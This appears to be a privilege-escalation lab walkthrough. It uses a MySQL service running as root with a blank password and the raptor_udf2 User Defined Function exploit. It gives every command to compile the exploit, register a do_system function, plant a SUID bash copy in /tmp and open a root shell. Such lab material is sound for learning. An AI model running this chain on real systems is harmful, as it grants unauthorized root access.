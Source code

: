 # 🫂 Services

The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.\
Change into the /home/user/tools/mysql-udf directory:\
`cd /home/user/tools/mysql-udf`\
Compile the raptor\_udf2.c exploit code using the following commands:\
`gcc -g -c raptor_udf2.c -fPIC`\
`gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`\
\
Connect to the MySQL service as the root user with a blank password:\
`mysql -u root`

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do\_system" using our compiled exploit:\
`use mysql;`\
`create table foo(line blob);`\
`insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));`\
`select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';`\
`create function do_system returns integer soname 'raptor_udf2.so';`

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:\
`select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');`\
Exit out of the MySQL shell (type **exit** or **\q** and press **Enter**) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:\
`/tmp/rootbash -p`\
**Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!**\
`rm /tmp/rootbash`\
`exit`
